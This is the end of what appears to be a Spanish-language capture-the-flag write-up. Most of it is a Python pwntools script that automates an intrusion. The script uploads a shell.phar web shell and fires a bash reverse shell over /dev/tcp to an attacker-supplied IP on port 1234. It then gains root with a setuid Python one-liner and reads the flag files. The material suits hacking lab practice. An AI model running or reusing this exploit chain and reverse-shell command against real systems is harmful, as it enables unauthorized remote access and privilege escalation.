 ```py
        sleep(2)
        r = s.post(url,files=files,data=data)

def conection():
    url_reverse = url_up + f"shell.phar?cmd=bash -c 'bash -i >%26 /dev/tcp/{sys.argv[1]}/1234 0>%261'"
    r = s.get(url_reverse)


if __name__ == '__main__':

    file_upload()
    progress.status('Enviando conexión reversa...')
    threading.Thread(target=conection, args=()).start()
    shell = listen(1234,timeout=10).wait_for_connection()
    shell.sendline("echo 'Ganando acceso como root...'")
    shell.sendline("cd /tmp")
    shell.sendline("echo 'import os ' > testing.py")
    shell.sendline("echo 'os.setuid(0)' >> testing.py")
    shell.sendline("""echo 'os.system("bash")' >> testing.py""")
    shell.sendline("python testing.py")
    shell.sendline("echo 'Listo, maquina rooteada, a continuacion las flags'")
    shell.sendline("cat /var/www/user.txt")
    shell.sendline("cat /root/root.txt")
    shell.interactive()
```

Hemos terminado la automatización de la intrusión.

Nos vemos, hasta la próxima.
